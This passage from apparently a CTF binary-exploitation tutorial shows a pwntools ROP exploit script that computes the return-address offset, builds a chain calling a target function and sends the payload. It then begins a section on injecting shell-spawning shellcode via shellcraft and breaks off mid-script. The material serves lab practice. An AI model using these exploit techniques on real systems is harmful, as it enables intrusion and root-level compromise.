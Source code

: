       # Pass in pattern_size, get back EIP/RIP offset
      offset = find_ip(cyclic(200))
      
      # Start program
      io = start()
      
      # ROP object
      rop = ROP(elf)
      rop.hacked(0xdeadbeefdeadbeef, 0xc0debabec0debabe)
      
      # Build the payload
      payload = flat({
          offset: rop.chain()
      })
      
      # Save the payload to file
      write('payload', payload)
      
      # Send the payload
      io.sendlineafter(b':', payload)
      
      # Get flag
      io.interactive()
      ```
      
## ==================================================================

## (5) Injecting Shellcode (Shellcraft/MSFVenom)
Files: https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101/05-injecting_custom_shellcode

   1. You'll see `setuid(0);` and `setgid(0)` in _source code_
     + In Linux, 0 is the uid for root
     
   2. Do the usual stuff like above to find the offset and whatnot 
   
   3. Once you inject shellcode, you'll jump back to the stack to execute 
     + You'll use the `jmp esp to do this`
   
### 4. Use `shellcraft` to craft exploit 
     + `shellcraft i386.linux.sh -f a`
      - This formats the shellcode in assembly
     + shellcraft script 
     ```
      from pwn import *
      